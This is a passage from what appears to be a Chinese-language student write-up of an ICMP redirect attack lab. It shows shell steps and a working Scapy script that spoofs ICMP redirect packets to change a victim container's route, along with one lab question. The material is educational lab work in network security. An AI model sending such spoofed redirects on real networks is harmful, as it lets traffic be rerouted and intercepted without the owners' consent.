 在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```

此时 victim 的路由改变：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![image-20220825151609508](/src/assets/img/security/icmp3.png)

> Question 1: Can you use ICMP redirect attacks to redirect to a remote machine? Namely, the IP address assigned to icmp.gw is a computer not on the local LAN. Please show your experiment result, and explain your observation.

修改程序：

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '192.168.60.6'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

然后保持victim ping `192.168.60.5`：

```shell
victim-10.9.0.5$ ping 192.168.60.5 &
```

清空 cache：

```shell
victim-10.9.0.5$ ip route flush cache
```
